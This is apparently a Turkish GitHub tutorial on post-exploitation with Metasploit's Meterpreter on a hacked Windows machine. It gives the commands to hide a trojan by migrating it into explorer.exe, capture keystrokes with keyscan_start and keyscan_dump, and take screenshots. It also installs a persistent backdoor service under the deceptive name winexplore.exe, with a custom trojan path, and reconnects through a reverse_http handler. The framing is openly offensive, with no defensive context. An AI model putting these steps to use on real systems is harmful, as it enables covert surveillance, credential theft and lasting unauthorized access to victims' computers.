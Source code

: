 
![resim](https://user-images.githubusercontent.com/18248422/175042903-d4c38166-dd6d-4ce5-ae28-71904fc1ad94.png)

## Bağlantı (hack) sonrası yapılacaklar

### Migrate (işlem göçü)

  migrate bizim backdoor olarak oluşturduğumuz ve halihazırda çalışan trojanımızı, çalışan başka bir exe içine gömerek trojanımızın gizlenmesini sağlayan bir yöntemdir. Şimdi sızmış olduğumuz bir windows cihazda “ps” komutu ile çalışan programladı listeleyelim;

![resim](https://user-images.githubusercontent.com/18248422/175042942-7016745a-5a74-40e3-b23b-904ac2cb9f8e.png)

 Burada da görüldüğü gibi “PID” yani ilk sütunda olan process id kısmını kullanarak kendi trojanımızı migrate edebileceğiz. 
 Şimdi windows da dosya sistemini görüntülemeye yarayan “explorer.exe” nin PID sini kullanarak migrate yapacağız.

![resim](https://user-images.githubusercontent.com/18248422/175042998-9d824e4a-97d5-47af-8a4a-b456daac5eae.png)

burada ki “2824” “explorer.exe” nin PID si idi ve “migrate 2824” yazıp trojanımızı migrate ettik.

NOT: “migrate” işlemi hacklenen bir cihazda ilk yapılması gerekilen işlemlerden biridir!

### Meterpreter ile Keylogger(keystroke) çalıştırmak

Keylogger yani klavyeden girilen değerleri dinlemek için aşağıda ki komutu kullanarak başlatabiliriz;

![resim](https://user-images.githubusercontent.com/18248422/175043272-49faf1ae-436b-4e85-8fa5-031789ebe777.png)
"keyscan_start" komutu ile keystroke sniffer yani klayvede basılan tuşları takip etmeye başladık. Eğer bu komuttan sonra basılan bütün klayve tuşlarını yani yazılanları görmek istiyorsak aşağıda ki komutu kullanıyoruz;

![resim](https://user-images.githubusercontent.com/18248422/175043298-8c3a2def-1649-4512-a358-9ca72e1bc02c.png)

"keyscan_start" komutu ile başlattıktan sonra hacklenen makinede basılan tüm klavye tuşlarını görmek için resimde de gördüğümüz üzere  “keyscan_dump” yazmamız yeterli.

### Screenshot almak

"screenshot" komutunu yazmamız yeterli.

### Hacklenen Cihazda Kalıcı Hale Gelmek

 Öncelikle hacklediğimiz cihazda açmış olduğumuz session menüsünden bir önceki menüye  “background” komutu ile dönüyoruz.  Geri dönmemizin nedeni payload değiştirecek olmamız, çünkü farklı bir payload kullanacağız.
![resim](https://user-images.githubusercontent.com/18248422/175043511-61ebdfb5-dff8-4650-aad3-a1b1f1920b9e.png)

  Yukarıda da görüldüğü gibi “use exploit/windows/local/persistence” persistence yani türkçe manası ile süreklilik, kalıcılık payload'ını kullanmaya ("use") başlıyoruz. Bu payload bizim trojanımızı bu cihaza service olarak enjekte etmemize yarıyor. Bu sayede hacklenen cihaz bilgisayarını her açıp internete bağlandığında cihaza yeniden erişim sağlayabileceğiz, hatta trojan bulunan exe dosyasını silse bile! Çünkü trojanımızı pc her açıldığında çalışacak şekilde bir service içine enjekte ediyoruz. Böylelikle bu cihazda kalıcı hale gelmiş oluyoruz. 

 Şimdi persistence payload'ının options kısmında bazı değişiklikler yapalım;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043557-203c8969-609c-4195-af9f-d5bc65482135.png)
 
  "set EXE_NAME winexplore.exe" diyerek “winexplore.exe” adında bir service içine trojanımızı enjekte edeceğimizi ayarladık. Burada ki  “winexplore.exe” adını biz verdik, yani herhangi bir isim verebiliriz. Dikkat çekmesin diye  “winexplore.exe” dedik.
 
 Ardından hangi session için bunu yapmak istediğimizi seçiyoruz (o an hangi session da karşı makinaya bağlıysak onun ID'si);
 ![resim](https://user-images.githubusercontent.com/18248422/175043621-41c698e2-bced-43ec-b515-98d27296ac69.png)

 "set SESSION 1" diyerek session kısmını da belirledik.
 
 Eğer istersek custom olarak kendi cihazımızda bulunan kendi oluşturduğumuz trojanı kullanmak istiyorsak bir değişiklik yapmamız gerekir. Bunun için “show advanced” komutu ile aşağıda ki kısmı açıyoruz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043651-f60b8d43-9b08-4a99-9cfc-5b29f1bb3dc9.png)

 ardından yukarıda ki resimde görüldüğü gibi “set EXE::Custom” komutunu kullanıp arından /var/www/html/bacdoors.... (kendi cihazımızda trojanı nereye koyduysak .exe uzantısına kadar yazıyoruz) şeklinde trojanın yerini belirtiyoruz.
 NOT: Bunu yapmakta ki amacımız; eğer bunu yapmazsak sistem kendi oluşturduğu bir default trojan ekler, bizim trojanımızı değil.
 
 Ayarı kontrol etmek için tekrar “show advanced” diyoruz ve;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043692-37626624-1781-432f-a1ff-dd17af77085b.png)

 
 EXE::Custom kısmında gördüğümüz gibi ayarımız geçerli olmuş.
 
 Artık enjekte etmeye hazırız ve “exploit” komutu ile enjekte etmeyi başlatabiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043740-ce51fa99-ac9f-421f-89ad-55e09b92ed2b.png)

 "exploit" komutu sonrası bu şekilde bir ekran gelirse başarılı olmuş demektir. 
 
 
 Bundan sonra artık hangi yöntem ile hacklediysek eriştiysek ona dönebiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043758-8dd47976-c22b-4a92-9fc0-eb5b98fc4b8b.png)

  burda “reverse_http” kullanılmış o yüzden “use exploit/multi/handler” diyip “set PAYLOAD windows/meterpreter/reverse_http” diyip hacklediğimiz payload'a geri dönüyoruz. 
 
  Artık bundan sonra nasılsa önceden exploit ettik üstüne birde persistence kullanarak cihazda kalıcı hale geldiğimize göre, cihaz kapanıp açılsa bile açıldıktan ve internete bağlandıktan 10 saniye sonra (default olarak 10 saniye belirlenmişti istersek onu da değiştirebiliyoruz) reverse_http yöntemi ile oluşturduğumuz trojanımızı, ismini kendimiz belirlediğimiz ve içine kendi trojanımızı enjekte ettiğimiz ("persistence" payloadı ile) bir service (service adına "winexplore.exe" demiştik) sayesinde bizim cihazımıza bağlanacak. 
  
  kaynak: https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/
  
  ![resim](https://user-images.githubusercontent.com/18248422/175043850-63f30f8e-9c7d-49c6-8f30-cbfc50c4bb66.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043879-23c6b837-c028-4634-8904-e2a9c67a0492.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043903-0fd8a40c-82a8-4511-9565-cca5396bfb42.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043922-eb075f16-ad88-462e-af7c-12fb41180ae5.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043959-4fc27dcc-7210-403a-9519-dbdd117b98ca.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043986-c0f65737-8802-4695-807c-b49e2290678e.png)

## creted by [@ahmetkara](https://github.com/ahmetQara)


  
  
  
  
  
  
  
  
  
 
